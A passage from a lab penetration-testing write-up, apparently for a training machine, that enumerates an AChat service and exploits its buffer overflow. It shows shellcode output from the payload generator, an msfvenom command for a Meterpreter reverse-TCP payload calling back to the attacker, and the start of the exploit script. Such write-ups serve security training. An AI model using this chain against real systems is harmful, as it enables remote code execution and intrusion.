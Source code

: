 ```
Unable to connect with SMB1 -- no workgroup available

```

#### AChat chat system enumeration
- so we can see that we have a service Achat chat system running on port 9255 and 9256
- so researching about exploits related to this service, we come across an exploit at [https://github.com/mpgn/AChat-Reverse-TCP-Exploit](https://github.com/mpgn/AChat-Reverse-TCP-Exploit) 
- looking at this exploit, we see that Achat 0.150 Beta7 is vulnerable to a Remote Buffer Overflow attack, and this exploit also gives us Remote Code Execution

#### Exploitation and Foothold
- so now we can then attempt this exploit, so firstly we generate a payload using the AChat_Payload.sh script

```shell
┌──(kali㉿kali)-[~/PNPT/machines/AChat-Reverse-TCP-Exploit]
└─$ ./AChat_Payload.sh 
RHOST: 10.10.10.74
LHOST: 10.10.14.7   
LPORT: 4444
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/unicode_mixed
x86/unicode_mixed succeeded with size 876 (iteration=0)
x86/unicode_mixed chosen with final size 876
Payload size: 876 bytes
Final size of python file: 4318 bytes
buf =  b""
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51"
*** SNIP ***
```

- in that script we can also find the msvenom command to generate the payload above, which we can run manually instead

```shell
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp RHOST=$RHOST LHOST=$LHOST LPORT=$LPORT exitfunc=thread -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python

```
- then we can edit the Exploit script with the buffer payload and the IP of the target, and the script will look like this:

```python
#!/bin/usr/python
#Script written by UN1X00
#Tested 25/05/2018 Windows 7/8/10

import socket
import sys, time

class bcolours:
    GREEN = '\033[92m'
    TURQ = '\033[96m'
    ENDC = '\033[0m'

#YOU WILL NEED TO PASTE THE OUTPUT FROM THE SHELL SCRIPT: "ACHAT_PAYLOAD.SH" BELOW:

buf =  b""
```
